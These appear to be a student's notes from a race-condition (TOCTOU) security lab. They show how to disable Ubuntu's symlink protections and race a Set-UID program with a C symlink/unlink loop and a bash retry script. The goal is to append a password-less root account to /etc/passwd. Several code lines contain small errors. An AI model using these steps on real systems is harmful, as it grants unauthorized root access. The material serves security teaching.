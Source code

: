 # Race Condition Vulnerability Lab
- a race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place
- If a privileged program has a race-condition vulnerability, attackers can run a parallel process to "race" against the privileged program, with an intention to change the behaviors of the program
- topics:
    - race condition
    - sticky symlink protection
    - principle of least privilege

## Environment Setup
- Turn off countermeasures
    - Ubuntu has a built-in protection that restricts who can follow a symlink, symlinks in world-writable sticky directories (e.g., `/tmp`) cannot be followed if the follower and directory owner do not match the symlink owner
        - `$ sudo sysctl -w fs.protected_symlinks=0`
    - Ubuntu 20.04 introduces another security mechanism that prevents the root form writing files in `/tmp` that are owned by others
        - `$ sudo sysctl fs.protected_regular=0`

## Task 1: Choosing Our Target
- the entry for `root` in `/etc/passwd`: `root:x:0:0:root:/root:/bin/bash`
- a general entry contains 7 fields
    - `username:password:uid:gid:user_info:home_directory:login_shell`
    - the `password` field used to contain an encrypted password, now password hashes will be stored in a separate file `/etc/shadow` (in this case, this field will be `x`)
- it is more difficult to exploit race condition to append to both `/etc/passwd` and `/etc/shadow`, instead, we can put password in the second field (`x`) of an entry in `/etc/passwd` 
- the magic value in Ubuntu live CD for a passowrd-less account: `U6aMy0wojraho`, if we put this value in the password field of a user entry, we only need to hit the return key when prompted for a password
- test
    - append `test:U6aMy0wojraho:0:0:test:/root:/bin/bash` to `/etc/passwd`
        ```
        seed@...$ su test
        Password: (Press Enter)
        root@...#
        ```

## Task 2: Launching the Race Condition Attack
- goal: exploit race condition vulnerability in a vulnerable `Set-UID` program `vulp.c`, and the ultimate goal is to get root privilege, the critical step is to make `/tmp/XYZ` point to the `/etc/passwd` within the window between check (`access(fn, W_OK)`) and use (`fopen(fn, "a+")`)

### Task 2.A: Simulating a Slow Machine
- add `sleep(10)` between `access()` and `fopen()`
- invoke `vulp`
    ```
    $ ./vulp
    test:U6aMy0wojraho:0:0:test:/root:/bin/bash
    ```
- create symlink after enter the content to `vulp`
    ```
    $ ln -sf /etc/passwd /tmp/XYZ
    (after vulp finishes executing)
    $ su test
    Password: (Press Enter)
    # whoami
    root
    ```

### Task 2.A: The Real Attack
- remove `sleep()`
- typicall strategy is to run an attack program in parallel, perfect timing is very hard to achieve
- write the attack program in C:
    - `symlink("/etc/passwd", "/tmp/XYZ");`
    - `unlink("/tmp/XYZ");`
- automatically running `vulp` and detecting whether the attack is successful by monitoring whether `/etc/passwd` changes with a script
    ```
    #!/bin/bash

    CHECK_FILE="ls -l /etc/passwd"
    old=$($CHECK_FILE)
    new=$($CHECK_FILE)
    while ["$old"=="$new"]
    do
        echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
        new=$(CHECK_FILE)
    done
    echo "STOP... The passwd file has been changed"
    ```
- the core code of our target program `auto_atk.c`
    ```
    while(1) {
        symlink("/etc/passwd", "/tmp/XYZ");
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XXX");
        unlink("/tmp/XYZ");
    }
    ```
- **attack succeeded**: we run our attack program, repeatedly link `/tmp/XYZ` to `/etc/passwd` and a `seed` owned file `/tmp/XXX`, and then run `target_process.sh`
    ```
    $ gcc -o auto_atk auto_atk.c
    $ ./auto_atk
    ```
    ```
    $ ./target_process.sj
    Permission denied
    Permission denied
    Permission denied
    Permission denied
    Permission denied
    STOP... The passwd file has been changed
    $ test
    Password:
    #
    ```

- **attack failed**: in most cases, after a few loops, the owner of `/tmp/XYZ` becomes `root`, and the attack will not success, to imporve the chance to success, each time this happens, we should manually delete `/tmp/XYZ`
    ```
    $ ls -l /tmp/XYZ
    -rw-rw-r-- 1 root seed 0 Jan 30 23:45 /tmp/XYZ
    ```

### Task 2.B: An Improved Attack
- when the owner of `/tmp/XYZ` becomes `root`, our attack program can never remove or `unlink()` it, because the `/tmp` folder has a "sticky" bit on, meaning that only the owner of the file can delete the file, even though the folder is world-writable
- the reason for this problem is that out attack program itself has a race condition vulnerability, the attack program is context switched out right after `unlink()`, but before it links the name to another file (`symlink()`), and the target `Set-UID` program gets a change to run `fopen(fn, "a+")`, it creates a new file with `root` being the owner

